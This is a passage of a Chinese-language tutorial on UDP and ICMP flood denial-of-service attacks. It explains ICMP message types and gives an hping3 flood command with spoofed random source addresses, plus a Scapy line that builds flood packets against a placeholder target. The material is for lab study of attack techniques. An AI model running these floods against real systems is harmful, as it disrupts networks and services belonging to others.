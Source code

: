 结合wireshark来查看攻击效果。

或者可以用hping3来实现：

```shell
hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP
–flood: sent packets as fast as possible
–-rand-source: random source address
–udp: UDP mode
-p –destport: destination port (default 0)
```

## ICMP Flood

> Internet Control Message Protocol
>
> 网际控制报文协议

### 原理

ICMP是互联网协议族的核心协议之一。它用于TCP/IP网络中发送控制消息，提供可能发生在通信环境中的各种问题反馈，通过这些信息，使管理者可以对所发生的问题作出诊断，然后采取适当的措施解决。

ICMP依靠IP来完成它的任务，它是IP的主要部分。它与传输协议（如TCP和UDP）显著不同：它一般不用于在两点间传输数据。它通常不由网络程序直接使用，除了ping和traceroute这两个特别的例子。 IPv4中的ICMP被称作ICMPv4，IPv6中的ICMP则被称作ICMPv6。

**几种常见的ICMP报文**

- 响应请求 

ping命令，就是响应请求（Type=8）和应答（Type=0），一台主机向一个节点发送一个Type=8的ICMP报文，如果途中没有异常，则目标返回Type=0的ICMP报文，说明这台主机存在。

- 目标不可到达、源抑制和超时报文 

这三种报文的格式是一样的。 

a)目标不可到达报文（Type=3）在路由器或主机不能传递数据报时使用，例如我们要连接对方一个不存在的系统端口时，将返回Type=3、Code=3的ICMP报文。常见的不可到达类型还有网络不可到达 （Code=0）、主机不可到达（Code=1）、协议不可到达（Code=2）等。 

b)源抑制则充当一个控制流量的角色，它通知主机减少数据报流量，由于ICMP没有恢复传输的报文，所以只要停止该报文，主机就会逐渐恢复传输速率。 

c)无连接方式网络的问题就是数据报会丢失，或者长时间在网络游荡而找不到目标，或者拥塞导致主机在规定时间内无法重组数据报分段，这时就要触发ICMP超时报文的产生。超时报文的代码域有两种取值：Code=0表示传输超时，Code=1表示重组分段超时。

- 时间戳 

时间戳请求报文（Type=13）和时间戳应答报文（Type=14）用于测试两台主机之间数据报来回一次的传输时间。传输时，主机填充原始时间戳，接收方收到请求后填充接收时间戳后以Type=14的报文格式返回，发送方计算这个时间差。一些系统不响应这种报文。

### 实验

ICMP的泛洪攻击是在最小时间内发送最大的ICMP数据到目标机，例如使用ping指令。

Python的Scapy库可以构造攻击报文如下，是一个标准的ping包。

```python
packet = scapy.layers.inet.IP(dst=self.args.target_ip) / scapy.layers.inet.ICMP()
```
